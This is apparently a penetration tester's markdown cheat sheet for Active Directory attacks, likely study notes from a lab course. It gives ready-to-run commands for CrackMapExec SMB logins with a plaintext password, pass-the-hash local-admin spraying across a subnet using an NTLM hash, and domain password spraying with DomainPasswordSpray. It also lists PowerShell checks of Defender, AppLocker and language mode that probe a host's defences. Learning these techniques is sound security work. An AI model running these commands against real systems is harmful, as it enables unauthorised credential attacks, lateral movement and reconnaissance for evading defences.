 ```Shell
crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
Login w/ credentials on CrackMapExec.
#access #crackmapexec 

#### Local Admin Spraying with CrackMapExec
```Shell
crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
Checks across all domains to see if the administrator's password has been used anywhere else
#crackmapexec #passwordattacks #passwordspraying  ^56d64d

### Password Spraying - Windows
```PowerShell
Import-Module .\DomainPasswordSpray.ps1
```
Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host.
#passwordattacks #passwordspraying #powershell

```PowerShell
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host.
#passwordattacks #passwordspraying #powershell  ^9284b4

## Accessed Enumeration
### Enumerating Security Controls from PowerShell

#### Check the Status of Defender
```PowerShell
Get-MpComputerStatus
```
PowerShell cmd-let used to check the status of Windows Defender Anti-Virus from a Windows-based host.
#enumeration #powershell #defender #antivirus ^b83bc1

#### Check the Status of AppLocker
```PowerShell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
PowerShell cmd-let used to view AppLocker policies from a Windows-based host.
#AppLocker #enumeration #powershell  ^e1f1d4

#### Check the Status of PowerShell Language Mode
```PowerShell
$ExecutionContext.SessionState.LanguageMode
```
PowerShell script used to discover the PowerShell Language Mode being used on a Windows-based host. Performed from a Windows-based host.
#enumeration #powershell  ^97f25e
